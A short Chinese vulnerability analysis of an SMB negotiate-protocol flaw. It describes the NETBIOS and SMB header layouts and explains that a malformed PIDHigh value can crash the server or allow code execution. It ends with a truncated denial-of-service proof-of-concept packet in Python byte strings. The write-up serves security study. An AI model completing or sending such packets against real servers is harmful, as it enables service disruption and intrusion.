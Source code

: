 ```py
```

言归正传。这些数据的具体结构如下：

```c
// NETBIOS Header
NETBIOS Header{
    UCHAR Type;
    UCHAR Flags; // always 0
    USHORT Length; // SMB Base Header + SMB Command Header + SMB DATA
}
// SMB Base Header
// https://msdn.microsoft.com/en-us/library/ee441774.aspx
SMB_Header{
   UCHAR  Protocol[4]; // '\xFF', 'S', 'M', 'B'
   UCHAR  Command;
   SMB_ERROR Status;
   UCHAR  Flags;
   USHORT Flags2;
   USHORT PIDHigh;
   UCHAR  SecurityFeatures[8];
   USHORT Reserved;
   USHORT TID;
   USHORT PIDLow;
   USHORT UID;
   USHORT MID;
}
// SMB Command Header
// https://msdn.microsoft.com/en-us/library/ee441822.aspx
SMB_Parameters{
    UCHAR  WordCount;
    USHORT Words[WordCount]; // variable
}
// SMB DATA
// https://msdn.microsoft.com/en-us/library/ee441822.aspx
SMB_Data{
    USHORT ByteCount;
    UCHAR Bytes[ByteCount]; // variable
} 
```

**漏洞定位**

漏洞在于，在客户端向服务端发出的`SMB_Header.Command`为`0x72 (SMBnegprot)`磋商协议数据包中，畸形的`SMB_Header.PIDHigh`将导致代码执行或服务端内核崩溃。

先分析一下触发拒绝服务的PoC：

```py
buff = (
"\x00\x00\x00\x90" # Begin SMB header: Session message
"\xff\x53\x4d\x42" # Server Component: SMB
"\x72\x00\x00\x00" # Negociate Protocol
"\x00\x18\x53\xc8" # Operation 0x18 & sub 0xc853
"\x00\x26" # Process ID High: --> :) normal value should be "\x00\x00"
# ...
)
```
